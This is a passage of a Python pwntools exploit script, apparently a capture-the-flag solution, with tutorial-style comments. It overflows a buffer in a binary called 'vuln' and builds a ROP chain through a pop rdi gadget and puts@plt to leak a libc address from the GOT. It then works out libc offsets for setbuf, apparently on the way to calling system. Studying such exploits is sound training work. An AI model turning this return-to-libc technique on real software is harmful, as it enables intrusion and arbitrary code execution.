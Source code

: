 ```python
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (`ROPgadget --bin vuln`)
# scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the scanf function in ghidra
# puts_at_got = 0x601018 # same as the scanf_at_got, but we changed the function to leak the address
setbuf_at_got = 0x601028 # same as the above, but we changed the function once again to leak the address

puts_at_plt = 0x400540 # 00400540, address of .plt section of the puts function in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packs the integers into bytes (returns a 64-bit little-endian byte string representation as a hexadecimal-encoded string)
	p64(setbuf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

# to get the leaked address
p.recvline()
p.recvline()

# unpack it and save the leak address, strip the \n, and adjusts the string padded with 8 bytes 
# and suffix it with null bytes and turn it into hexadecimal
leak = u64(p.recvline().strip().ljust(8, b"\x00")) 

log.info(f"{hex(leak)=}") # get the leaked address

"""
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between scanf (function we leaked) and system (function we want to call )

`readelf -s ./libc.so.6 | grep scanf` (print the address of scanf)
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
"""
# scanf_offset = 0x7b0b0

"""
we changed the function from scanf to puts
`readelf -s ./libc.so.6 | grep puts` (print the address of puts)
422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
"""
# puts_offset = 0x80a30

"""
we changed from puts to setbuf
`readelf -s ./libc.so.6 | grep setbuf` (prints the address of setbuf)
2185: 0000000000088540    10 FUNC    GLOBAL DEFAULT   13 setbuf@@GLIBC_2.2.5
"""
setbuf_offset = 0x88540

```